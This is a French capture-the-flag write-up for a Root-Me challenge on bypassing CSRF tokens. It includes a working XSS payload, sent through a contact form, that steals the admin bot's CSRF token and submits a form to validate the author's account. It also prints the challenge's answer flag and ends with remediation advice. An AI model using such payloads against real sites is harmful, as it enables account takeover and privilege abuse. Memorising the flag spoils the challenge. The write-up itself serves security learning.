




# CSRF - Contournement de jeton

https://www.root-me.org/fr/Challenges/Web-Client/CSRF-contournement-de-jeton

## Découverte de la vulnérabilité

### Reconnaissance initiale

L'application propose :
- Un formulaire de **Login** / **Register**
- Une page **Profile** avec un formulaire pour activer son compte
- Une page **Private** (nécessite validation admin)
- Un formulaire **Contact** pour envoyer un message à l'admin



### Analyse du formulaire Profile

Le formulaire contient :
- Un champ `username` (non modifiable)
- Une checkbox `status` (désactivée)
- Un champ caché `token` (protection CSRF)



**Observation** : La checkbox `status` est désactivée (`disabled`). Un utilisateur normal ne peut pas s'auto-valider.

## Exploitation

### Test : Soumettre sans token

Ouverture de la console (F12) et test manuel :
```javascript
// Activer la checkbox
document.querySelector('input[name="status"]').disabled = false;
document.querySelector('input[name="status"]').checked = true;

// Supprimer le token
document.getElementById('token').remove();

// Soumettre
document.querySelector('form').submit();
```

**Résultat** : Message "You're not an admin!" → Le serveur **n'accepte pas** qu'on se valide nous-mêmes.

### Solution : CSRF + XSS

L'idée : Faire en sorte que **l'admin active NOTRE compte** en visitant une page malveillante.

#### Payload XSS final

Envoi via le formulaire **Contact** :
```html
<form name="csrf" action="http://challenge01.root-me.org/web-client/ch23/?action=profile" method="post" enctype="multipart/form-data">
  <input type="hidden" name="username" value="thami123" />
  <input type="hidden" name="status" value="on" />
  <input id="admin-token" type="hidden" name="token" value="" />
</form>
<script>
var request = new XMLHttpRequest();
request.open("GET", "http://challenge01.root-me.org/web-client/ch23/?action=profile", false);
request.send(null);
var response = request.responseText;
var parser = new DOMParser();
var doc = parser.parseFromString(response, "text/html");
var token = doc.getElementById("token").value;
document.getElementById("admin-token").value = token;
document.csrf.submit();
</script>
```



### Explication de l'exploit

1. **XMLHttpRequest** : L'admin (bot) va chercher SA propre page Profile
2. **Extraction du token** : On parse le HTML et on récupère SON token CSRF
3. **Injection** : On met le token de l'admin dans notre formulaire
4. **Soumission** : Le formulaire est soumis avec les cookies de l'admin
5. **Résultat** : Notre compte est validé par l'admin !



## Résultat

**FLAG** : `Byp4ss_CSRF_T0k3n-w1th-XSS`

## Recommandations de sécurisation

### 1. Validation du token CSRF côté serveur
```php
if ($_POST['token'] !== $_SESSION['csrf_token']) {
    die('Invalid CSRF token');
}
```

### 2. Protection XSS

- Échapper toutes les entrées utilisateur : `htmlspecialchars()`
- Utiliser Content Security Policy (CSP)
- Valider et filtrer les données côté serveur